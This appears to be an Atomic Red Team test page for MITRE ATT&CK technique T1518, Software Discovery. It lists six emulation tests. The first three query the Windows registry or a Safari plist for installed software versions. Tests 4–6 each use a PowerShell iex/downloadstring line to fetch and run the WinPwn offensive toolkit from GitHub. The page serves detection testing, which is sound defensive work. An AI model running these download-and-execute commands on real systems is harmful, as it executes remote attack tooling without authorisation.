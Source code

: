 ```yaml
---
tags: [T1518, atomic_test]
filename: "[[T1518|T1518 - Software Discovery]]"
---
```


# T1518 - Software Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1518)
<blockquote>Adversaries may attempt to get a listing of software and software versions that are installed on a system or in a cloud environment. Adversaries may use the information from [Software Discovery](https://attack.mitre.org/techniques/T1518) during automated discovery to shape follow-on behaviors, including whether or not the adversary fully infects the target and/or attempts specific actions.

Adversaries may attempt to enumerate software for a variety of reasons, such as figuring out what security measures are present or if the compromised system has a version of software that is vulnerable to [Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Find and Display Internet Explorer Browser Version](#atomic-test-1---find-and-display-internet-explorer-browser-version)

- [Atomic Test #2 - Applications Installed](#atomic-test-2---applications-installed)

- [Atomic Test #3 - Find and Display Safari Browser Version](#atomic-test-3---find-and-display-safari-browser-version)

- [Atomic Test #4 - WinPwn - Dotnetsearch](#atomic-test-4---winpwn---dotnetsearch)

- [Atomic Test #5 - WinPwn - DotNet](#atomic-test-5---winpwn---dotnet)

- [Atomic Test #6 - WinPwn - powerSQL](#atomic-test-6---winpwn---powersql)


<br/>

## Atomic Test #1 - Find and Display Internet Explorer Browser Version
Query the registry to determine the version of internet explorer installed on the system.
Upon execution, version information about internet explorer will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 68981660-6670-47ee-a5fa-7e74806420a4






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer" /v svcVersion
```






<br/>
<br/>

## Atomic Test #2 - Applications Installed
Query the registry to determine software and versions installed on the system. Upon execution a table of
software name and version information will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** c49978f6-bd6e-4221-ad2c-9e3e30cc1e3b






#### Attack Commands: Run with `powershell`! 


```powershell
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
```






<br/>
<br/>

## Atomic Test #3 - Find and Display Safari Browser Version
Adversaries may attempt to get a listing of non-security related software that is installed on the system. Adversaries may use the information from Software Discovery during automated discovery to shape follow-on behaviors

**Supported Platforms:** macOS


**auto_generated_guid:** 103d6533-fd2a-4d08-976a-4a598565280f






#### Attack Commands: Run with `sh`! 


```sh
/usr/libexec/PlistBuddy -c "print :CFBundleShortVersionString" /Applications/Safari.app/Contents/Info.plist
/usr/libexec/PlistBuddy -c "print :CFBundleVersion" /Applications/Safari.app/Contents/Info.plist
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Dotnetsearch
Search for any .NET binary file in a share using the Dotnetsearch function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7e79a1b6-519e-433c-ad55-3ff293667101






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Dotnetsearch -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #5 - WinPwn - DotNet
Search for .NET Service-Binaries on this system via winpwn dotnet function of WinPwn.

**Supported Platforms:** Windows


**auto_generated_guid:** 10ba02d0-ab76-4f80-940d-451633f24c5b






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
dotnet -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - powerSQL
Start PowerUpSQL Checks using powerSQL function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 0bb64470-582a-4155-bde2-d6003a95ed34






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powerSQL -noninteractive -consoleoutput
```






<br/>
